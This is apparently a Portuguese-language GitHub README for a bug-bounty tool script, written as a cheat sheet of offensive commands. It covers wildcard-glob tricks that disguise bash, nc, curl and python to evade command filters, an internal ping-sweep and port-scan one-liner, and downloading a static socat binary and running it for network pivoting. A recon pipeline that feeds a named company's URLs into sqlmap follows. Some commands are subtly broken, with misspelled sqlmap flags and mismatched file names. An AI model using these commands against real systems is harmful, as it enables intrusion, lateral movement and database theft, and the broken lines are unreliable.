 # Bugbounts-ferramentas-e-tutoriais

Esse script baixa as ferramentas mais utilizadas em pentest e bounts, cria arquivos txt passando como usa cada uma, e ainda baixa wordlists mais atuais de parâmetros, dns, diretorios e etc...
<h1>Bypass de bash use a imaginação, aqui está alguns exemplos</h1>
/bin/b??? -p || /bi?/b??? -p = bash</br>
/bin/ne?c?t || /bi?/ne?c?t = nc </br>
/bin/p?t?o?3 || /bi?/p?t?o?3 = python3</br>
/bin/p?t?o?2 || /bi?/p?t?o?2 = python2</br>
/bin/c??l || /bi?/c??l = curl </br>
/bin/w??t || /bi?/w??t = get</br>

<h1>Para fazer um scan na rede do alvo procurando novos ips internos ativos com portas abertas</h1>
route|awk '{print $1}'|grep [[:digit:]] || ip route list |awk '{print $1}'|grep [[:digit:]];echo -e "\e[1;41;1;45mColoqueo ip assim -----> 172.0.0. tire o ultimo numero\e[0m" ;echo -en "Escolha o ip e coloque aqui -->: ";read num ; for i in $(seq 1 255);do ping -W 1 -c 1 $num$i | grep '64 bytes' | awk {'print $4'} | sed 's/.$//g';done > ipvalidos.txt ;for a in $(cat ipvalidos.txt);do nc -nv -w 1 -z $a 80 443 22 21 3306 25 445 139;done
</br>
<h2>Dowlonad do socat para o pivoting</h2>

Comand = wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat;chmod +x socat ;./socat -h

Tutorial = https://deephacking.tech/pivoting-con-socat/
</br>
Uso= ./socat tcp-l:7878,fork,reuseaddr tcp:172.16.0.147:80 &


<h2>Pegando params para sqli</h2>

pegando target das url: 

subfinder -d tesla.com -silent -all | httpx -silent -threads 100 | katana -d 4 -jc -ef css,png,svg,ico,woff,gif | tee -a urls.txt

filtrando potenciais sqli: 

cat urls | gf sqli | tee -a sqli.txt

jogando para sqlmap:

while read line; do sqlmap -u $line --parse-erros --current-db --invalid-logical --invalid-bignum --invalid-string --riks 3;done sqli.txt

